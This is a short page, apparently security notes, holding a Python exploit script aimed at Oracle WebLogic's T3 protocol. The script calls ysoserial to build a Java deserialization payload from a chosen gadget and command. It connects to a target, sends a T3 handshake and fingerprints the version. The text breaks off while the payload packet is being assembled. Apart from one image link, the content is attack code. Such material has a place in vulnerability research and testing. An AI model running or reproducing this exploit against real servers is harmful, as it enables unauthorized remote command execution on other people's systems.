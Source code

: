 ![image-20210815001234456](img/image-20210815001234456.png)

```python
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = '/Users/cengsiqi/Desktop/javasectools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
    popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
```